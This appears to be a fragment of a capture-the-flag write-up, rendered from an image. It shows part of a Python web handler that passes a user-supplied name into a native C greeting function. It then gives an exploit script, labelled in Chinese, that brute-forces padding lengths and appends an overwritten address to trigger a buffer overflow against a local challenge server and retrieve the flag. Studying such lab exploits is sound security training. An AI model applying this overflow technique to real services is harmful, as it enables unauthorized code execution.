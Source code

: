 ```python
            if pid == 0:
                os.close(r)
                os.dup2(w, 1)
                name_buffer = ctypes.create_string_buffer(name.encode("latin"))
                libgreet.greet(name_buffer, len(name))
                os._exit(0)

            os.close(w)
            while True:
                data = os.read(r, 256)
                if not data:
                    break
                yield data
            os.wait()

        return stream_greet()

    return "Not Found\n", 404
```

利用代码
```python
hex_value = "c5 f1 29 5f 3c 7f 00 00 "

hex_value = hex_value.replace(" ", "")  # 去除空格
byte_data = bytes.fromhex(hex_value)
latin1_string = byte_data.decode('latin-1')

print("Byte data:", byte_data)
print("Latin-1 string:", latin1_string)

url = "http://challenge.localhost/greet"
for i in range(248, 300):
    data = '1' * i + latin1_string
    response = requests.get(url=url, params={"name": data})
    if "flag" in response.text:
        print(f"i is {i}")
        print(response.text)
        hex_output = response.text.encode('utf-8').hex()
        print(hex_output)
exit()
```